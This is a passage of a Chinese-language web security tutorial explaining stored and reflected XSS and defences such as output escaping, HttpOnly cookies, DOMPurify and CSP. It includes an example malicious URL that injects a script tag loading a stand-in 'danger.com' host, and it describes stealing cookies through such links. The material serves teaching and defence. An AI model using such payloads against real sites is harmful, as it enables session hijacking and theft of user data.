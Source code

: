 那么浏览器会加载执行恶意脚本`danger.com/spread.js`， 在恶意脚本中利用用户的登录状态发更多的带有恶意评论的 URL， 诱导更多人点击，层层传播，放大攻击范围。

###### 反射型

反射型也叫非持久型，相比于前者危害就小一些，一般通过修改 URL 参数的方式加入攻击代码，诱导用户访问链接从而进行攻击。

这种常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

**反射型 XSS 的攻击步骤如下：**

1. 攻击者在 url 后面的参数中加入恶意攻击代码。
2. 当用户打开带有恶意代码的 URL 的时候，网站服务端将恶意代码从 URL 中取出，拼接在 html 中并且返回给浏览器端。
3. 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
4. 攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如 cookie 等信息，然后使用该信息来冒充合法用户
   的行为，调用目标网站接口执行攻击等操作。

**例子**

比如：攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接的时候，注入脚本被传输到目标服务器上，然后服务器将注入脚本 "反射"到受害者的浏览器上，从而浏览器就执行了该脚本。

恶意链接形式：

```
http://localhost:8080/helloController/search?name=<script src="danger.com/spread.js"></script>
```

对于这种攻击方式来说，如果用户使用的是 Chrome 浏览器的话，浏览器已经帮助用户做了防御攻击。但是我们也不能说就不防御了，因为无法保证用户都是用有防御攻击的浏览器。

**二者区别：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。**

###### 防御

**1.输入输出过滤**

一切用户输入皆不可信，在输出时进行验证，一般做法是将 ‘ ” < > & 这些个危险字符进行转义。

对于 URL 地址的转义可以使用`encodeURI`，当你需要编码 URL 中的参数的时候，那么`encodeURIComponent`是最好方法。

转义的方式很明显并不适用于所有场景，比如富文本，这样会将需要的格式都过滤掉。因为 HTML 标签种类繁多，基于黑名单的过滤方法考虑的并不全面，所以我们可以根据白名单过滤 HTML, 可以借助`xss.js`来完成。

后端需要对提交的数据进行过滤。

**2. Cookie 的 HttpOnly**

很多 XSS 攻击目标都是窃取用户`cookie`伪造身份认证。

设置了 HttpOnly 属性的 cookie 不能使用 JavaScript 经由 Document.cookie 属性、XMLHttpRequest 和 Request APIs 进行访问，以防范跨站脚本攻击（XSS）。

可以通过服务端在 `cookie` 中设置 `HttpOnly` 属性，js 脚本将无法读取到 cookie 信息。

```
ctx.cookies.set(name, value, {
    httpOnly: true // 默认为 true
})
```

**3. 第三方库 DOMPurify** （XSS 过滤器）

**4. CSP(内容安全策略)**
